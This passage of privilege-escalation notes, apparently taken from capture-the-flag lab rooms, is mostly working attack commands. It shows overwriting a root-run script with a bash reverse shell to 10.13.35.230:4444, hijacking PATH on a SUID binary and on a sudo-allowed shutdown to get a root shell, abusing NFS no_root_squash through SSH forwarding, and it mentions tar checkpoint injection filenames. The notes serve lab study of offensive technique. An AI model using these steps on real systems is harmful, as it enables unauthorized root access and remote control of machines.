 don't forget to rm shell.sh, ""--check~.sh", and "--check~point=1"

#### Writable file

```bash
locate overwrite.sh
ls -l /usr/local/bin/overwrite.sh
```

replace the contents of overwrite.sh to below.

#!/bin/bash
bash -i >& /dev/tcp/10.13.35.230/4444 0>&1

#### PATH variable

- the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

  As this file runs as the root users privileges, we can manipulate our path gain a root shell.

  ```bash
  kenobi@kenobi:~$ strings /usr/bin/menu
  curl -I localhost
  uname -r
  ifconfig
  ```

  ```bash
  kenobi@kenobi:/tmp$ echo /bin/bash > curl
  kenobi@kenobi:/tmp$ chmod +x curl
  kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
  kenobi@kenobi:/tmp$ /usr/bin/menu
  ```

  or `chmod 4755 <script>`

- another way

  if `(root) NOPASSWD: /usr/sbin/shutdown` and `poweroff` is in `shutdown` (check with `strings`)

  ```bash
  fox@year-of-the-fox:/tmp$ cp /bin/bash ./poweroff
  fox@year-of-the-fox:/tmp$ sudo  "PATH=/tmp:$PATH" /usr/sbin/shutdown
  ```

  

### NFS

In /etc/exports, no_root_squash flag means all folders in NFS is owned by root and have root priviledge.

Need to be connected from inside, ex. reverse ssh! On victim machine,

```bash
rpcinfo -p
```

to check which port is open for nfs. Then, reverse ssh via that port.

```bash
<attacker> $ ssh -L 2049:localhost:2049 -i <id_rsa> <user>@<ip>
<victim> $ showmount -e localhost
<attacker> $ mkdir /tmp/nfs
<attacker> $ sudo mount -t nfs localhost:/ /tmp/nfs
```
